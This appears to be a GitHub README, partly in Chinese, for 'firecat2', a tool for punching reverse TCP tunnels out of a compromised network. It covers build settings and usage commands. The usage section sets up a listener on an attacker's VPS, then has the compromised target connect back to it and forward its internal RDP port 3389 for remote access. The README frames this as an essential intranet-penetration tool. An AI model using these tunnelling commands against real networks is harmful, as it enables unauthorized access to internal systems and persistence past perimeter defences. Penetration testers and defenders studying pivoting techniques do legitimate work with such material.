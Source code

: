 # firecat2
Punch reverse TCP tunnels out of a compromised network, accessing any port on any system inside the compromised network from an external host.
内网渗透（建立数据转发隧道）必备神器，没有之一。firecat2 移除了反弹shell代码，仅保留了转发tunnel功能。

Link
https://www.bishopfox.com/resources/tools/other-free-tools/firecat/

###编译环境

Microsoft Visual Studio Professional 2012

OS 
Microsoft Windows Embedded 8.1 Industry Pro

on Linux
>gcc -o firecat.exe firecat.c -lwsock32


###注意几个地方
* 配置属性-常规 字符集  使用多字节字符集
* C/C++ -常规   附加包含目录 配置问include头文件目录
* 连接器-常规   附加库目录 配置为lib库文件目录
* 配置属性-常规 平台工具集 vs-xp(可选)
* 调试时, 在监视1窗口(Watch 1)中输入 $err,hr 获取GetLastError()


###如何使用

以转发内网3389端口为例

在你的VPS机器上监听80端口和任意端口（51）
>firecat -m 0 -t 80 -s 51

在目标机上回连你的VPS
>firecat -m 1 -h yourvps -t 80 -l localip -s 3389

本地mstsc连接 127.0.0.1:51
